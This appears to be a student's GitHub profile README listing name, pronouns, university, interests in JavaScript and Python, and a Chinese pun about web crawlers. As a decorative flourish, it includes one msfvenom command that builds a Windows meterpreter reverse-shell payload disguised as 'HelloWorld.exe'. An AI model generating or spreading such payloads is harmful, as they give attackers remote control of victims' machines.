

## Hello, I am Jaycheng


* ✨ `My name is`: **Jaycheng**,
* 🪪 `Pronouns`: **He/Him**,
* 🏫 `I'm study in`: **NTUST**,
* 🌱 `I’m currently learning`: **JavaScript**,
* ❤️ `I love`: **Perle milk tea🧋**  ,
* 🖥️ `Favorite lang`: **JavaScript & Python**

### About me
>化工科，比起調殺蟲劑更喜歡造爬蟲www

#### >　1000110 1001111 1011000

```bash
msfvenom -p windows/meterpreter/reverse_tcp lport=1111 lhost=192.168.0.1 -f exe > HelloWorld.exe
```

<br>
<h2 align="center">🍵 Statistics</h2>

<div>
    
    
</div>

### Skills

<div>
    
    
    
    
</div>
